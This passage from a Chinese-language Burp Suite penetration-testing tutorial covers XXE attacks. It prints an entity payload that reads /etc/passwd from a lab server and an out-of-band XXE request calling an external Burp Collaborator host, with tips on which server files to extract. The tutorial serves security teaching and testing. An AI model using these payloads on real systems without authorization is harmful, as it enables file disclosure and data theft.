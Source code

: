 系统管理员可以修改此标题，如果您有疑问，可以使用网络工具，如 Nmap（[www.Nmap.org](http://www.nmap.org)确认。

在本例中，服务器是 DebianLinux。因此，我们需要用于攻击的测试字符串必须符合类 Unix 文件系统的要求，如下所示：

```
<!DOCTYPE foo  [<!ENTITY bar SYSTEM "file:///etc/passwd">]> <foo>&amp;bar;</foo> 
```

使用这个，我们将检索`/etc/passwd`文件，在某些情况下，该文件作为密码散列存储在 Linux 系统中。因此，将原始请求发送到 Repeater tool，用此字符串修改`xml`参数，点击 Go，如下图所示：

![](Images/920f6273-fd0f-4598-a157-f208a61c373f.png)

目前，并非所有 Linux 系统都使用`/etc/passwd`文件来存储散列；在过去，作为一名 pentester，呈现与前一张类似的屏幕截图是显示漏洞风险的完美证据。然而，现在有很多 Linux 系统将哈希存储在`/etc/shadow`中，这是加密的，或者在许多情况下，限制了服务器用户对文件系统的访问。

根据应用程序的上下文，您需要确定要提取哪些文件。例如，作为提示，从 web 服务器的根目录提取文件以访问源代码非常有用。

# 使用 XXE 和 Burp 套件协作器执行数据提取

Burp Suite collaborator 是一种服务，主要用于在应用程序尝试与外部服务交互时检测漏洞。Burp Suite 分析与外部系统的交互并检测异常行为。为了分析应用程序，Burp Suite collaborator 向应用程序发送输入或有效负载，并等待响应。

因此，在本例中，Burp 套件在服务器上工作，应用程序在服务器上使用公共服务（如 DNS、SMTP 或 HTTP）进行交互。

# 使用 Burp 套件攻击该漏洞

在主仪表板选项卡中打开 Burp Suite，然后单击新的扫描选项，如下面的屏幕截图所示。请记住，这些选项仅在 Burp Suite Professional 中可用，在社区版中不可用：

![](Images/d50fcee4-b164-4b3a-86a0-151c17dc7bf3.png)

使用扫描仪时，Burp Suite 会测试应用程序是否存在漏洞。在这里，您可以修改有关扫描仪如何完成其工作的选项，还可以配置自动登录的凭据。这对于应用程序的大多数部分都非常重要，因为大多数应用程序都具有身份验证控制。为了利用 XXE，我们将对我们拥有的 URL 进行简单扫描。单击确定按钮后，扫描开始。

扫描完成后，Burp Suite 将向我们显示在 URL 中检测到的 XXE，如以下屏幕截图所示：

![](Images/ecac7d4c-b9d6-4e75-8c63-14a0b90f3727.png)

在前面的列表中，我们可以看到一些问题，包括短语外部服务交互，后面是所使用的协议。如果我们选择其中一个问题，Burp Suite 将向我们显示一个名为 Collaborator interaction 的新选项卡，如以下屏幕截图所示：

![](Images/56410108-9297-44e2-a71b-231c63537bbd.png)

Burp Suite collaborator 允许用户配置自己的服务器，但如果您未配置服务器，则默认情况下，collaborator 使用 Portswigger 的服务器。通过分析请求，我们可以检测到协作者发送了以下参数：

```
GET /xml/example1.php?xml=%3c!DOCTYPE%20test%20[%3c!ENTITY%20%25%20j27pf%20SYSTEM%20%22http%3a%2f%2fdgxknwuc7fqeysa0w53lpzt2wt2mqceb22psdh.burpcollaborator.net%22%3e%25j27pf%3b%20]%3e%3ctest%3ehacker%3c%2ftest%3e HTTP/1.1 
Host: 192.168.1.66 
Accept-Encoding: gzip, deflate 
Accept: */* 
Accept-Language: en-US,en-GB;q=0.9,en;q=0.8 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Safari/537.36 
Connection: close 
Cache-Control: max-age=0 
```
